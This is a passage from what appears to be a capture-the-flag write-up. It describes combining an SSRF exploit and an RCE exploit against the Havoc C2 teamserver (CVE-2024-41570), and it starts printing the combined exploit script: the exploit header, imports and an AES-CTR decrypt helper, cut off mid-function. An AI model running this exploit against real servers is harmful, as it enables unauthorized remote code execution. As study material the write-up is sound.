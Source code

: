 ![NON](file-20250606235646127.png)

### Final Exploit Script

We then combined the SSRF and RCE scripts into a single script that would first register the agent, open a socket, and then execute the RCE command through the socket. Since the socket was open by the `SSRF` exploit, we commented out the commands that started the socket of our `RCE` script, and modified the sending of the payloads to send to the socket we had opened with the `SSRF` exploit.

The following is the final exploit script that combines both the SSRF and RCE functionalities:

```bash
cat functional_rce.py
```

```python
# /// script
# requires-python = ">=3.11"
# dependencies = [
#     "pycryptodome",
#     "requests",
# ]
# ///

# Exploit Title: Havoc C2 0.7 Unauthenticated SSRF
# Date: 2024-07-13
# Exploit Author: @_chebuya
# Software Link: https://github.com/HavocFramework/Havoc
# Version: v0.7
# Tested on: Ubuntu 20.04 LTS
# CVE: CVE-2024-41570
# Description: This exploit works by spoofing a demon agent registration and checkins to open a TCP socket on the teamserver and read/write data from it. This allows attackers to leak origin IPs of teamservers and much more.
# Github: https://github.com/chebuya/Havoc-C2-SSRF-poc
# Blog: https://blog.chebuya.com/posts/server-side-request-forgery-on-havoc-c2/
import binascii
import random
import requests
import argparse
import urllib3
urllib3.disable_warnings()


from Crypto.Cipher import AES
from Crypto.Util import Counter

key_bytes = 32

def decrypt(key, iv, ciphertext):
    if len(key) <= key_bytes:
        for _ in range(len(key), key_bytes):
            key += b"0"

    assert len(key) == key_bytes

    iv_int = int(binascii.hexlify(iv), 16)
    ctr = Counter.new(AES.block_size * 8, initial_value=iv_int)
    aes = AES.new(key, AES.MODE_CTR, counter=ctr)

    plaintext = aes.decrypt(ciphertext)
    return plaintext


def int_to_bytes(value, length=4, byteorder="big"):
```